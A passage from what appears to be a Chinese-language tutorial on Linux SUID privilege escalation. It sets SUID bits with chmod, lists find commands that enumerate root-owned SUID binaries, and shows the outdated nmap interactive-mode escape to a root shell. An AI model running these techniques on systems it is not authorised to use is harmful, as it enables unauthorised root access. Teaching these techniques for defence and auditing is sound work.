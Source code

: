         return 0;  
    }

root-see.c文件

    
    
    #include <stdio.h>  
      
    int main()  
    {  
        /* 我的第一个 C 程序 */  
        printf("Hello, root! \n");  
      
        return 0;  
    }

编译得到下面两个可执行文件 ，然后`chmod`设置权限。使普通用户无法执行`root-see.out`

    
    
    chmod u+s filename   设置SUID位  
    chmod u-s filename   去掉SUID设置   
      u代表文件所属者，suid权限是针对文件所属者而言的，只能对其所属者设置

![]()image (2).png下面我们尝试用suid提权执行`root-see.out`文件

## 寻找可利用文件

下面的三条命令都可以找到当前系统上文件属主为`root`并且拥有`SUID`权限的可执行文件。
准确的说，这个命令就是用`find`从`/`目录往下查找具有`SUID`权限位且文件属主为`root`的文件在并在控制台输出，然后将所有错误重定向到`/dev/null`，从而仅列出该用户具有访问权限的那些二进制文件。

    
    
    find / -user root -perm -4000 -print 2>/dev/null  
    find / -perm -u=s -type f 2>/dev/null  
    find / -user root -perm -4000 -exec ls -ldb {} \;  
      
    -user 指定文件拥有者  
    -perm 文件权限  
    -exec 执行系统命令

可以看见上面的`root-see.out`文件已经能查到

![]()image (3).png

# 可利用文件总结

### nmap（已失效）

网上说 nmap（`2.02-5.21`）存在交互模式，可利用提权。

    
    
    nmap --interactive  
      
    之后执行:  
    nmap> !sh  
    sh-3.2# whoami  
    root  
      